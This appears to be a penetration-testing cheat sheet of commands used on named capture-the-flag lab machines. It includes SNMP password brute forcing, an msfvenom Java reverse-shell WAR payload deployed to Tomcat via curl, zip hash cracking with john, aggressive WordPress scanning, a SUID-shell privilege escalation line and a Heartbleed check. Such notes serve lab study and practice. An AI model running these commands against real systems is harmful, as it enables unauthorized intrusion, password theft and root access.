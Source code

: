 Used in ```Pit```

```
# crack SNMP passwords
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt -p <target port> <target ip>
```

```
snmpwalk -v1 -c public <target ip> .
# -v 1|2c|3 SNMP version
# -c community string, like a password
# . [OID]
```
get file access control lists

```
getfacl /usr/local/monitoring
```

Used in ```Tabby```

```shell
# create reverse shell
msfvenom -p java/shell_reverse_tcp lhost=<attacker ip> lport=<attacker port> -f war -o shell.war
# Tomcat role admin, manager and manager-script can remote deploy 
curl -v -u 'tomcat:<password>' --upload-file shell.war "http://<target ip>:<port>/manager/text/deploy?path=/test&update=true"
# trigger
curl http://<target ip>:<port>/test/
# crack zip file password
zip2john <file> > hash
john --wordlist=<password_list> hash       
```

Used in ```TartarSauce```

```shell
wpscan --url http://<target ip>/ -e ap --plugins-detection aggressive --api-token <api_key> -t 20 --verbose
# --api-token:display vulnerability data (not always necessary), register a uesr and get the api key from wpscan offical website
```

Used in ```Time```

```shell
# privilege escalation by using task script 
echo 'cp /bin/sh /tmp/sh;chmod u+s /tmp/sh' > <task script file>
# execute
/tmp/sh -p
# -p priviliged
```

Used in ```Valentine```

```shell
# check heartbleed vulnerability with Nmap NSE script
nmap --script=ssl-heartbleed -p <target port> <target ip>
```
